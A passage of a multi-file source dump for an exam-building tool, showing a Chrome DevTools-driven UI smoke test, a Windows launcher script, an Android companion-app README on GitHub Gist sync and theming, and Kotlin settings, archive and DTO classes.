### FILE: tools/smoke-template-ui.cjs

```javascript
#!/usr/bin/env node
// Optional browser smoke test. Start the app and a Chrome CDP session first:
// chrome --headless=new --remote-debugging-port=9222 http://localhost:3000
const base = process.env.EXAM_SMOKE_URL || 'http://localhost:3000';
const cdp = process.env.EXAM_CDP_URL || 'http://localhost:9222';
const { PDFParse } = require('pdf-parse');
const fs = require('fs/promises');
const os = require('os');
const path = require('path');
const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

async function main() {
  const before = new Set((await (await fetch(`${base}/api/templates`)).json()).templates.map(t => t.template_id));
  const targets = await (await fetch(`${cdp}/json`)).json();
  const tab = targets.find(t => t.type === 'page' && t.url.startsWith(base));
  if (!tab) throw new Error('Không tìm thấy tab ExamBuilder trong Chrome CDP.');
  const ws = new WebSocket(tab.webSocketDebuggerUrl);
  await new Promise((resolve, reject) => { ws.addEventListener('open', resolve, { once: true }); ws.addEventListener('error', reject, { once: true }); });
  let nextId = 0;
  const pending = new Map();
  ws.addEventListener('message', event => {
    const data = JSON.parse(event.data);
    if (!data.id || !pending.has(data.id)) return;
    const { resolve, reject } = pending.get(data.id); pending.delete(data.id);
    if (data.error) reject(new Error(data.error.message)); else resolve(data.result);
  });
  const send = (method, params = {}) => new Promise((resolve, reject) => {
    const id = ++nextId;
    const timer = setTimeout(() => { pending.delete(id); reject(new Error(`CDP timeout: ${method}`)); }, 20000);
    pending.set(id, { resolve: value => { clearTimeout(timer); resolve(value); }, reject: error => { clearTimeout(timer); reject(error); } });
    ws.send(JSON.stringify({ id, method, params }));
  });
  const evaluate = async expression => {
    const result = await send('Runtime.evaluate', { expression, awaitPromise: true, returnByValue: true });
    if (result.exceptionDetails) throw new Error(result.exceptionDetails.exception?.description || result.exceptionDetails.text);
    return result.result.value;
  };
  const until = async expression => {
    for (let i = 0; i < 80; i++) { if (await evaluate(expression)) return; await sleep(100); }
    throw new Error(`Hết thời gian chờ UI: ${expression}`);
  };
  let createdId;
  try {
    await send('Page.reload', { ignoreCache: true });
    await sleep(500);
    await until("!!document.querySelector('#templateSystemBtn')");
    await evaluate("document.querySelector('#templateSystemBtn').click()");
    await until("document.querySelectorAll('.template-card').length >= 10");
    await evaluate("document.querySelector('.template-card button').click()");
    await until("!!document.querySelector('.template-editor-header h3')");
    await until("!!document.querySelector('.template-prompts textarea[readonly]')?.value.includes('Ma_Khung')");
    await evaluate("[...document.querySelectorAll('.template-editor-header button')].find(b => b.textContent.includes('Tạo bản sao')).click()");
    await until("!![...document.querySelectorAll('.template-editor-header button')].find(b => b.textContent === 'Lưu')");
    await until("!!document.querySelector('.template-inspector input[type=number]')");
    const after = (await (await fetch(`${base}/api/templates`)).json()).templates;
    createdId = after.find(t => !before.has(t.template_id))?.template_id;
    if (!createdId) throw new Error('Clone không được lưu qua API.');
    const scoreInput = "[...document.querySelectorAll('.template-inspector input')].find(x => x.type === 'number')";
    await evaluate(`${scoreInput}.value='0.75'; ${scoreInput}.dispatchEvent(new Event('change',{bubbles:true}))`);
    await until("document.querySelector('.template-editor-header span')?.textContent.includes('10.25 / 10.00')");
    await evaluate("(() => { const input = [...document.querySelectorAll('.template-settings .template-field')].find(x => x.firstChild?.textContent === 'Thang điểm đề').querySelector('input'); input.value='10.25'; input.dispatchEvent(new Event('change',{bubbles:true})); })()");
    await evaluate("[...document.querySelectorAll('.template-editor-header button')].find(b => b.textContent === 'Lưu').click()");
    await sleep(300);
    const saved = (await (await fetch(`${base}/api/templates/${encodeURIComponent(createdId)}`)).json()).template;
    if (saved.sections[0].slots[0].points !== '0.75') throw new Error('Editor không lưu điểm mới.');
    const slot = saved.sections[0].slots[0];
    const raw = `=PHAN_1=\n[CAU_HOI]\nMa_Khung: ${slot.slot_id}\nMa_Phan: ${saved.sections[0].section_id}\nDiem: 0.75\nLoai: TN\nMuc_Do: Nhan_Biet\nDe_Bai: Câu thử từ AI?\nA. Một\nB. Hai\nC. Ba\nD. Bốn\nDap_An: A\nLoi_Giai: Vì đây là đáp án A.\nSo_Dong_Nhap: 0`;
    await evaluate("(() => { const el = document.querySelector('.template-prompts .template-field select'); el.value='SELECTED_SLOTS'; el.dispatchEvent(new Event('change',{bubbles:true})); })()");
    await evaluate(`(() => { const el = document.querySelector('.template-prompts > textarea:not([readonly])'); el.value=${JSON.stringify(raw)}; el.dispatchEvent(new Event('change',{bubbles:true})); })()`);
    await evaluate("[...document.querySelectorAll('.template-prompts button')].find(b => b.textContent.includes('Kiểm tra và xem thay đổi')).click()");
    await until("document.querySelector('.template-prompts .template-report')?.textContent.includes('Câu thử từ AI?')");
    await evaluate("window.confirm = () => true");
    await evaluate("[...document.querySelectorAll('.template-prompts button')].find(b => b.textContent === 'Áp dụng bản nháp').click()");
    await until("!![...document.querySelectorAll('.template-inspector textarea')].find(x => x.value.includes('Câu thử từ AI?'))");
    for (let i = 0; i < 6; i++) {
      await evaluate(`[...document.querySelectorAll('.template-list button')].filter(b => b.textContent.includes('điểm'))[${i}].click()`);
      await evaluate(`(() => {
        const fields = [...document.querySelectorAll('.template-inspector .template-field')];
        const set = (label, value) => { const el = fields.find(f => f.firstChild?.textContent === label)?.querySelector('textarea'); if (!el) throw Error(label); el.value = value; el.dispatchEvent(new Event('change', {bubbles:true})); };
        set('Đề bài', 'NOI_DUNG_CAU_${i + 1}');
        ${i < 4 ? "set('Lựa chọn A–D (mỗi dòng một lựa chọn)', 'Một\\nHai\\nBa\\nBốn');" : ''}
        set('Đáp án', 'A'); set('Lời giải', 'SECRET_SOLUTION_${i + 1}');
      })()`);
    }
    await evaluate("document.querySelector('.template-preview-controls select').value='student'; document.querySelector('.template-preview-controls select').dispatchEvent(new Event('change',{bubbles:true}))");
    let screenshotPath = '';
    if (process.env.EXAM_SMOKE_SCREENSHOT === '1') {
      await evaluate("document.querySelector('.template-paper').scrollIntoView({block:'start'})");
      await sleep(150);
      const screenshot = await Promise.race([
        send('Page.captureScreenshot', { format: 'png', captureBeyondViewport: false }),
        sleep(5000).then(() => { throw new Error('Chrome screenshot timeout'); })
      ]);
      screenshotPath = path.join(os.tmpdir(), 'exam-builder-template-ui-smoke.png');
      await fs.writeFile(screenshotPath, Buffer.from(screenshot.data, 'base64'));
    }
    const pdf = await send('Page.printToPDF', { printBackground: true, preferCSSPageSize: true });
    const parser = new PDFParse({ data: Buffer.from(pdf.data, 'base64') });
    let parsed;
    try { parsed = await parser.getText(); } finally { await parser.destroy(); }
    if (!parsed.text.includes('NOI_DUNG_CAU_1') || parsed.text.includes('SECRET_SOLUTION')) throw new Error('PDF bản học sinh mất câu hoặc lộ lời giải.');
    process.stdout.write(`UI smoke passed: gallery=10, prompt generated, clone saved ${createdId}, score=0.75, student PDF has content without answer${screenshotPath ? `. Screenshot: ${screenshotPath}` : ''}\n`);
  } finally {
    ws.close();
    if (createdId) await fetch(`${base}/api/templates/${encodeURIComponent(createdId)}`, { method: 'DELETE' });
  }
}
main().catch(error => { console.error(error); process.exitCode = 1; });

```

### FILE: Chay_ExamBuilder.bat

```batch
@echo off
setlocal
cd /d "%~dp0"
title ExamBuilder - Dong cua so nay de TAT ung dung

if not exist node_modules (
    echo [ExamBuilder] Dang cai dat goi phu thuoc lan dau, vui long doi...
    call npm install
    if errorlevel 1 (
        echo [ExamBuilder] Cai dat that bai. Kiem tra ket noi mang roi thu lai.
        pause
        exit /b 1
    )
)

set "EB_PORT=3000"
set "PORT=%EB_PORT%"

echo [ExamBuilder] Dang khoi dong may chu tren cong %EB_PORT%...
start /b "" node backend\server.js

echo [ExamBuilder] Dang cho may chu khoi dong...
timeout /t 2 /nobreak >nul

echo [ExamBuilder] Dang mo trinh duyet...
start "" "http://localhost:%EB_PORT%"

echo.
echo ==================================================
echo  ExamBuilder dang chay tai http://localhost:%EB_PORT%
echo  DONG CUA SO NAY (nut X) de TAT toan bo ung dung.
echo ==================================================
echo.

:keepalive
timeout /t 5 /nobreak >nul
goto keepalive

```

### FILE: Exam builder for adr/README.md

````markdown
# ExamBuilder for Android

Native Kotlin + Jetpack Compose companion app to the web ExamBuilder (`../frontend`, `../backend`). Lets a teacher author an exam, preview it in student/teacher mode, and export it as an A4 PDF directly from a phone or tablet — no server dependency.

## Stack

- Kotlin, Jetpack Compose (Material 3), Navigation-Compose
- `minSdk 26` (Android 8.0) / `targetSdk 34`
- No third-party PDF library — PDF export uses the platform `android.graphics.pdf.PdfDocument` API

## File tree

```
Exam builder for adr/
├── settings.gradle.kts
├── build.gradle.kts                 # root plugin versions
├── gradle.properties
├── gradle/wrapper/gradle-wrapper.properties
└── app/
    ├── build.gradle.kts             # app module: deps, minSdk 26 / targetSdk 34
    ├── proguard-rules.pro
    └── src/main/
        ├── AndroidManifest.xml      # launcher activity + FileProvider (PDF sharing)
        ├── java/com/exambuilder/android/
        │   ├── MainActivity.kt
        │   ├── model/Exam.kt              # Exam/QuestionBlock/Question/QuestionOption
        │   │                               #  - mirrors the web app's JSON schema
        │   ├── data/
        │   │   ├── dto/LibraryDto.kt          # @Serializable DTO khớp exambuilder-library.json + mapper <-> model/Exam.kt
        │   │   ├── ExamArchiveRepository.kt   # kho đề cục bộ = filesDir/exam-library.json (upsert / xóa mềm / replaceAll)
        │   │   ├── SyncSettingsStore.kt       # DataStore: github_token / gist_id / last_synced_at (plaintext)
        │   │   └── AppSettingsStore.kt        # DataStore: theme_id (+ theme_updated_at, đồng bộ Gist) / font_scale (cục bộ)
        │   ├── sync/
        │   │   ├── LibraryMerge.kt            # mergeLibraries "primary thắng" + pickNewerTheme "lần đổi gần nhất thắng" — giống hệt backend/sync/library.js
        │   │   ├── GistClient.kt              # GitHub Gist API qua HttpURLConnection (get/create/update)
        │   │   └── SyncManager.kt             # push (máy->Gist) / pull (Gist->máy)
        │   ├── viewmodel/ExamViewModel.kt # in-memory exam state (+ loadExam / currentExamId cho Kho đề)
        │   ├── viewmodel/LibraryViewModel.kt # state màn "Kho đề": danh sách + cấu hình + Push/Pull + autosave
        │   ├── export/PdfExporter.kt      # renders Exam -> multi-page A4 PDF
        │   ├── ui/theme/{Color,Type,Theme,Palettes}.kt  # 11 chủ đề ColorScheme (9 sáng + 2 tối) + Typography.scaled(factor)
        │   ├── ui/navigation/ExamBuilderNavHost.kt  # bottom-nav: Soạn đề / Xem trước / Xuất file / Kho đề / Cài đặt
        │   └── ui/screens/
        │       ├── ExamBuilderScreen.kt   # Core UI 1: exam builder view
        │       ├── PreviewScreen.kt       # Core UI 2: preview (số câu liên tục 1..N, chạm để bung câu)
        │       ├── ExportScreen.kt        # Core UI 3: export trigger (PDF + share sheet)
        │       ├── LibraryScreen.kt       # Core UI 4: kho đề (mở lại / xóa) + đồng bộ Gist
        │       └── SettingsScreen.kt      # Core UI 5: 7 chủ đề màu (card preview) / cỡ chữ
        └── res/
            ├── mipmap-anydpi-v26/  # adaptive icon (foreground line-art + nền xanh #2563EB) + monochrome
            ├── mipmap-{m,h,x,xx,xxx}dpi/  # ic_launcher / _round / _foreground PNG theo 5 mật độ
            ├── values/{strings.xml,themes.xml,ic_launcher_background.xml}
            └── xml/{backup_rules.xml,data_extraction_rules.xml,file_paths.xml}
```

App icon được sinh từ `../resources/image/icon.png` (ảnh grayscale) → tách nền → nét vẽ trắng trên
nền xanh thương hiệu `#2563EB`. Đổi ảnh nguồn thì chạy lại `node resources/image/gen-android-icons.js`
(script Node thuần, chỉ dùng `zlib` core) để sinh lại toàn bộ `mipmap-*`.

## Data model

`model/Exam.kt` mirrors the schema produced by `backend/parser/TextPromptParser.js` / `FileUploadParser.js` (`question_type`, `difficulty_level`, `options[].option_key` / `is_correct`, etc.), so an exam authored on either client uses the same shape. `data/dto/LibraryDto.kt` is the `@Serializable` snake-case view of that schema plus sync fields — it is what gets read/written to the Gist and to the local `exam-library.json`, and it maps 1:1 to `model/Exam.kt`.

## Kho đề + Đồng bộ GitHub Gist (PC ↔ Android)

Mọi đề soạn trên máy được **tự động lưu** vào `filesDir/exam-library.json` (debounce 1.2 giây sau thay đổi cuối — xem `LaunchedEffect` trong `ExamBuilderNavHost`). Tab **"Kho đề"** cho mở lại đề để soạn tiếp hoặc **xóa** (xóa mềm — tombstone, chỉ trên máy này).

Đồng bộ dùng **một GitHub Gist secret** làm kho chung, file `exambuilder-library.json` — cùng định dạng và cùng logic merge với web (`backend/sync/library.js`):

| Thao tác | Hướng | Quy tắc |
|---|---|---|
| **⬆️ Đẩy lên** | máy → Gist | `merge(local, cloud)` — bản trên máy thắng khi trùng `exam_id`; tự tạo Gist nếu chưa có Gist ID |
| **⬇️ Kéo về** | Gist → máy | `merge(cloud, local)` — bản trên cloud thắng; dùng để lấy đề từ thiết bị khác hoặc khôi phục đề vừa lỡ xóa |

Cấu hình trong tab "Kho đề" (Token & Gist ID khóa sau khi lưu, đổi qua nút **🔑 Thay đổi Token** /
**🆔 Thay đổi Gist ID**): thiết bị đầu tiên bấm **🆕 Tạo Gist ID mới**; thiết bị sau dán **cùng
Token + cùng Gist ID** với bên web PC rồi **⬇️ Kéo về**.

> ⚠️ **Bảo mật:** token lưu **plaintext** trong DataStore; Gist secret **không mã hóa** — ai có link Gist đều đọc được toàn bộ đề kèm đáp án. Xem chi tiết ở `../documents/README.md` mục 4.3.

## Cài đặt giao diện (tab "Cài đặt")

`AppSettingsStore` (DataStore `exambuilder_app`) giữ **chủ đề màu** (`cold` / `ocean` / `meadow` /
`blossom` / `sorbet` / `daylight` / `summer` / `fall` / `winter` / `midnight` / `pine` — xem
`ui/theme/Palettes.kt`, mỗi chủ đề là **một `ColorScheme` hoàn chỉnh**, tự nó sáng hoặc tối) và
**cỡ chữ** (`0.9`–`1.3`). Bảng màu chắt lọc từ `../resources/image/theme/`, đồng bộ hex với
`frontend/style.css`, tương phản đạt WCAG AA. `MainActivity` thu 2 giá trị →
`ExamBuilderTheme(themeId, fontScale)`; `fontScale` nhân vào mọi `TextStyle` qua
`Typography.scaled(factor)`. Không có công tắc "chế độ tối" riêng (dùng chủ đề `midnight`/`pine`);
không dùng dynamic color (Material You). `SettingsScreen` = tab thứ 5, lưới card preview mỗi chủ đề.

**Chủ đề màu đồng bộ qua Gist** (`theme_id` thôi): `SyncManager` gắn theme + `theme_updated_at`
vào file thư viện trước khi merge, `LibraryMerge.pickNewerTheme` chọn theo **"lần đổi gần nhất
thắng"**, rồi `applySyncedTheme()` ghi bản thắng về DataStore → `MainActivity` tự đổi giao diện.
**Cỡ chữ KHÔNG đồng bộ** (riêng từng máy).

## Responsive layout

`ExamBuilderScreen` uses `BoxWithConstraints` to switch from a single-column phone layout to a two-pane list/detail layout once available width exceeds ~600dp (tablets, foldables unfolded, split-screen). Compose's density-independent `dp`/`sp` units plus Material 3's dynamic color (Android 12+) cover the rest of the density/OS-version variance down to API 26.

## Building

Compiled and verified locally with the Android SDK/Gradle already installed on this machine — **`app/build/outputs/apk/debug/app-debug.apk`** is a real, built debug APK, ready to install (`adb install app-debug.apk`) or side-load.

To rebuild: open `Exam builder for adr/` in Android Studio and let it sync (it will regenerate `gradle-wrapper.jar`, which isn't committed here), or run `gradle assembleDebug` from this directory with any Gradle 8.9+ install (kho đề + đồng bộ thêm 2 dependency: `kotlinx-serialization-json` và `androidx.datastore:datastore-preferences`, tải về ở lần build đầu).

### Bản release (`exam_builder.apk`)

- `gradle assembleRelease` → `app/build/outputs/apk/release/app-release.apk` (đã minify R8 + ký).
- Bản phát hành để side-load: **`exam_builder.apk`** (copy từ `app-release.apk`).
- **Ký release** đọc từ `keystore.properties` ở gốc module (KHÔNG commit — xem `.gitignore`). Không có file này thì `assembleRelease` vẫn chạy nhưng ra APK chưa ký (không cài được). Tạo lại:
  ```
  keytool -genkeypair -keystore app/exam-builder-release.jks -alias exambuilder \
    -keyalg RSA -keysize 2048 -validity 10000 -storepass <pw> -keypass <pw> \
    -dname "CN=ExamBuilder, O=ExamBuilder, C=VN"
  ```
  rồi tạo `keystore.properties`:  `storeFile=app/exam-builder-release.jks` / `storePassword` / `keyAlias` / `keyPassword`.
  Giữ file `.jks` an toàn — mọi bản cập nhật sau phải ký bằng đúng khoá này.
- Rules R8 cho `kotlinx.serialization` nằm trong `app/proguard-rules.pro` (thiếu → `LibraryFile.serializer()` lỗi lúc chạy).

> **Note on the parent path:** this repo lives under a folder with Vietnamese diacritics (`Desktop/file nộp bài tập all/...`). AGP hard-fails on non-ASCII project paths by default, so `gradle.properties` sets `android.overridePathCheck=true` to allow it — keep that line if you keep this folder name; it can be removed if the project is ever moved to an ASCII-only path.

## Known gaps (scaffold, not a finished app)

- Persistence: kho đề đã được ghi ra file JSON (`ExamArchiveRepository`), nhưng đề **đang soạn dở** vẫn chỉ nằm trong `ExamViewModel` cho tới khi autosave chạy (debounce 1.2s) — chưa khôi phục lại đúng con trỏ soạn khi kill app giữa chừng. Không dùng Room (dữ liệu phi quan hệ, khớp 1:1 với file Gist nên JSON gọn hơn).
- Đồng bộ Gist là **thủ công 2 nút** (Đẩy lên / Kéo về), không tự chạy nền; không giải quyết xung đột theo dòng — "primary thắng" cả đề khi trùng `exam_id`.
- `PdfExporter` does plain-text pagination (no rich text, no stacked-fraction rendering equivalent to the web app's `mathFraction.js`). Good enough for a first export, not a pixel-match of the web PDF.

````

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/MainActivity.kt

```kotlin
package com.exambuilder.android

import android.os.Bundle
import androidx.activity.ComponentActivity
import androidx.activity.compose.setContent
import androidx.activity.viewModels
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.material3.Surface
import androidx.compose.runtime.getValue
import androidx.compose.ui.Modifier
import androidx.lifecycle.compose.collectAsStateWithLifecycle
import com.exambuilder.android.data.AppSettings
import com.exambuilder.android.data.AppSettingsStore
import com.exambuilder.android.ui.navigation.ExamBuilderNavHost
import com.exambuilder.android.ui.theme.ExamBuilderTheme
import com.exambuilder.android.viewmodel.ExamViewModel
import com.exambuilder.android.viewmodel.LibraryViewModel

class MainActivity : ComponentActivity() {

    private val viewModel: ExamViewModel by viewModels()
    private val libraryViewModel: LibraryViewModel by viewModels()

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        val appSettingsStore = AppSettingsStore(applicationContext)
        setContent {
            val settings by appSettingsStore.settings.collectAsStateWithLifecycle(initialValue = AppSettings())
            ExamBuilderTheme(
                themeId = settings.themeId,
                fontScale = settings.fontScale
            ) {
                Surface(modifier = Modifier.fillMaxSize()) {
                    ExamBuilderNavHost(viewModel, libraryViewModel, appSettingsStore)
                }
            }
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/data/AppSettingsStore.kt

```kotlin
package com.exambuilder.android.data

import android.content.Context
import androidx.datastore.preferences.core.edit
import androidx.datastore.preferences.core.floatPreferencesKey
import androidx.datastore.preferences.core.stringPreferencesKey
import androidx.datastore.preferences.preferencesDataStore
import kotlinx.coroutines.flow.Flow
import kotlinx.coroutines.flow.map
import java.time.Instant

private val Context.appDataStore by preferencesDataStore(name = "exambuilder_app")

/**
 * Tuỳ chỉnh giao diện: chủ đề màu (mỗi chủ đề là một bảng màu HOÀN CHỈNH, có
 * chủ đề sáng và chủ đề tối riêng — không có công tắc "chế độ tối" tách rời)
 * và cỡ chữ. Lưu cục bộ (DataStore), cùng kiểu với [SyncSettingsStore].
 *
 * [themeUpdatedAt] = mốc thời gian (ISO) lần cuối người dùng đổi theme — dùng
 * để đồng bộ theme qua Gist ("lần đổi gần nhất thắng"). Cỡ chữ KHÔNG đồng bộ.
 */
data class AppSettings(
    val themeId: String = "cold",
    val fontScale: Float = 1f,
    val themeUpdatedAt: String = ""
)

private val THEME_MIGRATE = mapOf(
    "blue" to "cold", "teal" to "ocean", "forest" to "meadow", "amber" to "summer", "violet" to "blossom"
)

class AppSettingsStore(private val context: Context) {

    private object Keys {
        val THEME = stringPreferencesKey("theme_id")
        val FONT = floatPreferencesKey("font_scale")
        val THEME_AT = stringPreferencesKey("theme_updated_at")
    }

    val settings: Flow<AppSettings> = context.appDataStore.data.map { p ->
        val raw = p[Keys.THEME] ?: "cold"
        AppSettings(
            themeId = THEME_MIGRATE[raw] ?: raw,
            fontScale = p[Keys.FONT] ?: 1f,
            themeUpdatedAt = p[Keys.THEME_AT] ?: ""
        )
    }

    /** Người dùng tự đổi theme -> đóng dấu thời điểm hiện tại (để đồng bộ). */
    suspend fun setThemeId(id: String) {
        context.appDataStore.edit {
            it[Keys.THEME] = id
            it[Keys.THEME_AT] = Instant.now().toString()
        }
    }

    /** Áp theme nhận từ Gist -> giữ NGUYÊN VĂN mốc thời gian của bản đó. */
    suspend fun applySyncedTheme(id: String, updatedAt: String?) {
        context.appDataStore.edit {
            it[Keys.THEME] = id
            it[Keys.THEME_AT] = updatedAt ?: Instant.now().toString()
        }
    }

    suspend fun setFontScale(scale: Float) {
        context.appDataStore.edit { it[Keys.FONT] = scale }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/data/ExamArchiveRepository.kt

```kotlin
package com.exambuilder.android.data

import android.content.Context
import com.exambuilder.android.data.dto.LIBRARY_SCHEMA
import com.exambuilder.android.data.dto.LibraryFile
import com.exambuilder.android.data.dto.LibraryJson
import com.exambuilder.android.data.dto.SavedExamDto
import com.exambuilder.android.data.dto.toSavedExamDto
import com.exambuilder.android.model.Exam
import kotlinx.coroutines.Dispatchers
import kotlinx.coroutines.flow.MutableStateFlow
import kotlinx.coroutines.flow.StateFlow
import kotlinx.coroutines.flow.asStateFlow
import kotlinx.coroutines.sync.Mutex
import kotlinx.coroutines.sync.withLock
import kotlinx.coroutines.withContext
import java.io.File
import java.time.Instant
import java.util.UUID

/**
 * Kho de cuc bo cua app Android = 1 file JSON trong filesDir, cung cau truc
 * voi file tren Gist va bang SAVED_EXAM cua backend web. Xoa = dat deleted_at
 * (tombstone), giu ban ghi lai de lan Push con lan duoc len Gist.
 */
class ExamArchiveRepository(private val context: Context) {

    private val file: File get() = File(context.filesDir, "exam-library.json")
    private val ioMutex = Mutex()

    private val _entries = MutableStateFlow<List<SavedExamDto>>(emptyList())
    /** Toan bo ban ghi ke ca tombstone (dung cho dong bo). */
    val entries: StateFlow<List<SavedExamDto>> = _entries.asStateFlow()

    /** Chi cac de con song, moi sua len dau — dung cho danh sach UI. */
    val activeExams: List<SavedExamDto>
        get() = _entries.value.filter { !it.isDeleted }.sortedByDescending { it.updatedAt ?: "" }

    private fun nowIso() = Instant.now().toString()

    suspend fun load() = withContext(Dispatchers.IO) {
        ioMutex.withLock {
            _entries.value = readFileLocked().exams
        }
    }

    fun get(id: String): SavedExamDto? = _entries.value.firstOrNull { it.examId == id && !it.isDeleted }

    suspend fun asLibrary(): LibraryFile =
        LibraryFile(schema = LIBRARY_SCHEMA, updatedAt = nowIso(), exams = _entries.value)

    /**
     * Tao moi (id == null) hoac cap nhat tai cho de trong kho. Giong backend:
     * KHONG hoi sinh de da bi xoa — neu id tro toi 1 tombstone thi tao ban ghi
     * moi thay vi go deleted_at.
     * Tra ve exam_id da dung.
     */
    suspend fun upsert(exam: Exam, id: String?): String = withContext(Dispatchers.IO) {
        ioMutex.withLock {
            val current = readFileLocked().exams.toMutableList()
            // Chi coi la "cap nhat tai cho" khi id tro toi mot de con song.
            val idx = id?.let { wanted -> current.indexOfFirst { it.examId == wanted && !it.isDeleted } } ?: -1
            val examId = if (idx >= 0) id!! else UUID.randomUUID().toString()
            val createdAt = if (idx >= 0) current[idx].createdAt else null
            val dto = exam.toSavedExamDto(examId = examId, createdAt = createdAt, nowIso = nowIso())
            if (idx >= 0) current[idx] = dto else current.add(dto)

            writeFileLocked(current)
            _entries.value = current
            examId
        }
    }

    suspend fun softDelete(id: String) = withContext(Dispatchers.IO) {
        ioMutex.withLock {
            val current = readFileLocked().exams.toMutableList()
            val idx = current.indexOfFirst { it.examId == id && !it.isDeleted }
            if (idx >= 0) {
                current[idx] = current[idx].copy(deletedAt = nowIso(), updatedAt = nowIso())
                writeFileLocked(current)
                _entries.value = current
            }
        }
    }

    /** Ghi de toan bo kho (dung sau merge khi Push/Pull). */
    suspend fun replaceAll(exams: List<SavedExamDto>) = withContext(Dispatchers.IO) {
        ioMutex.withLock {
            writeFileLocked(exams)
            _entries.value = exams
        }
    }

    // --- file IO (goi trong ioMutex) ---

    private fun readFileLocked(): LibraryFile {
        if (!file.exists()) return LibraryFile(schema = LIBRARY_SCHEMA, updatedAt = nowIso(), exams = emptyList())
        return runCatching {
            val lib = LibraryJson.decodeFromString(LibraryFile.serializer(), file.readText())
            lib.copy(exams = lib.exams.filter { it.examId.isNotBlank() })
        }.getOrElse { LibraryFile(schema = LIBRARY_SCHEMA, updatedAt = nowIso(), exams = emptyList()) }
    }

    private fun writeFileLocked(exams: List<SavedExamDto>) {
        val lib = LibraryFile(schema = LIBRARY_SCHEMA, updatedAt = nowIso(), exams = exams)
        val tmp = File(file.parentFile, file.name + ".tmp")
        tmp.writeText(LibraryJson.encodeToString(LibraryFile.serializer(), lib))
        if (!tmp.renameTo(file)) {
            file.writeText(tmp.readText())
            tmp.delete()
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/data/SyncSettingsStore.kt

```kotlin
package com.exambuilder.android.data

import android.content.Context
import androidx.datastore.preferences.core.edit
import androidx.datastore.preferences.core.stringPreferencesKey
import androidx.datastore.preferences.preferencesDataStore
import kotlinx.coroutines.flow.Flow
import kotlinx.coroutines.flow.map

private val Context.syncDataStore by preferencesDataStore(name = "exambuilder_sync")

data class SyncSettings(
    val githubToken: String = "",
    val gistId: String = "",
    val lastSyncedAt: String = ""
) {
    val hasToken: Boolean get() = githubToken.isNotBlank()
}

/**
 * Luu token GitHub + Gist ID + thoi diem dong bo gan nhat. Token luu PLAINTEXT
 * (cung muc voi API key LLM ben web) - xem canh bao bao mat trong README.
 */
class SyncSettingsStore(private val context: Context) {

    private object Keys {
        val TOKEN = stringPreferencesKey("github_token")
        val GIST_ID = stringPreferencesKey("gist_id")
        val LAST_SYNCED = stringPreferencesKey("last_synced_at")
    }

    val settings: Flow<SyncSettings> = context.syncDataStore.data.map { p ->
        SyncSettings(
            githubToken = p[Keys.TOKEN] ?: "",
            gistId = p[Keys.GIST_ID] ?: "",
            lastSyncedAt = p[Keys.LAST_SYNCED] ?: ""
        )
    }

    suspend fun setToken(token: String) {
        context.syncDataStore.edit { it[Keys.TOKEN] = token.trim() }
    }

    suspend fun setGistId(gistId: String) {
        context.syncDataStore.edit { it[Keys.GIST_ID] = gistId.trim() }
    }

    suspend fun setLastSyncedAt(iso: String) {
        context.syncDataStore.edit { it[Keys.LAST_SYNCED] = iso }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/data/dto/LibraryDto.kt

```kotlin
package com.exambuilder.android.data.dto

import com.exambuilder.android.model.BlockType
import com.exambuilder.android.model.DifficultyLevel
import com.exambuilder.android.model.Exam
import com.exambuilder.android.model.Question
import com.exambuilder.android.model.QuestionBlock
import com.exambuilder.android.model.QuestionOption
import com.exambuilder.android.model.QuestionType
import com.exambuilder.android.math.MathPromote
import kotlinx.serialization.ExperimentalSerializationApi
import kotlinx.serialization.SerialName
import kotlinx.serialization.Serializable
import kotlinx.serialization.json.Json
import kotlinx.serialization.json.JsonObject

/**
 * DTO cho file thu vien tren Gist (`exambuilder-library.json`). Tach hẳn khoi
 * domain model (model/Exam.kt) vi:
 *  - JSON dung snake_case ("question_type", "is_correct"...) khop voi parser
 *    cua web (backend parser) va bang SAVED_EXAM cua backend Node.
 *  - Co them cac truong dong bo (created_at / updated_at / deleted_at) khong
 *    thuoc ve de thi.
 * Merge logic o LibraryMerge.kt phai giong het backend/sync/library.js.
 */

const val LIBRARY_SCHEMA = "exambuilder/library@1"
const val LIBRARY_FILENAME = "exambuilder-library.json"

@OptIn(ExperimentalSerializationApi::class)
val LibraryJson: Json = Json {
    ignoreUnknownKeys = true
    encodeDefaults = true
    explicitNulls = true
    prettyPrint = true
    prettyPrintIndent = "  "
}

@Serializable
data class OptionDto(
    @SerialName("option_key") val optionKey: String = "",
    @SerialName("option_text") val optionText: String = "",
    @SerialName("is_correct") val isCorrect: Boolean = false
)

@Serializable
data class QuestionDto(
    @SerialName("question_type") val questionType: String = "ESSAY",
    val content: String = "",
    @SerialName("difficulty_level") val difficultyLevel: String? = null,
    @SerialName("correct_answer") val correctAnswer: String? = null,
    val explanation: String? = null,
    val options: List<OptionDto> = emptyList(),
    @SerialName("draft_lines_count") val draftLinesCount: Int = 0,
    @SerialName("template_slot_id") val templateSlotId: String? = null,
    val points: String? = null
)

@Serializable
data class BlockDto(
    @SerialName("block_type") val blockType: String = "MULTIPLE_CHOICE",
    @SerialName("block_title") val blockTitle: String? = null,
    val questions: List<QuestionDto> = emptyList()
)

@Serializable
data class SavedExamDto(
    @SerialName("exam_id") val examId: String,
    val title: String = "",
    val subject: String = "",
    @SerialName("duration_minutes") val durationMinutes: Int? = null,
    @SerialName("school_header") val schoolHeader: String = "",
    val blocks: List<BlockDto> = emptyList(),
    @SerialName("created_at") val createdAt: String? = null,
    @SerialName("updated_at") val updatedAt: String? = null,
    @SerialName("deleted_at") val deletedAt: String? = null,
    @SerialName("template_binding") val templateBinding: JsonObject? = null
) {
    val isDeleted: Boolean get() = deletedAt != null
}

/**
 * Chu de mau dong bo kem thu vien. Chi dong bo `id`; co chu van cuc bo tung
 * may. Luat hop nhat: "lan doi gan nhat thang" theo [updatedAt] (xem
 * LibraryMerge.pickNewerTheme) - KHAC luat "primary thang" cua de.
 */
@Serializable
data class ThemeDto(
    val id: String = "",
    @SerialName("updated_at") val updatedAt: String? = null
)

@Serializable
data class LibraryFile(
    val schema: String = LIBRARY_SCHEMA,
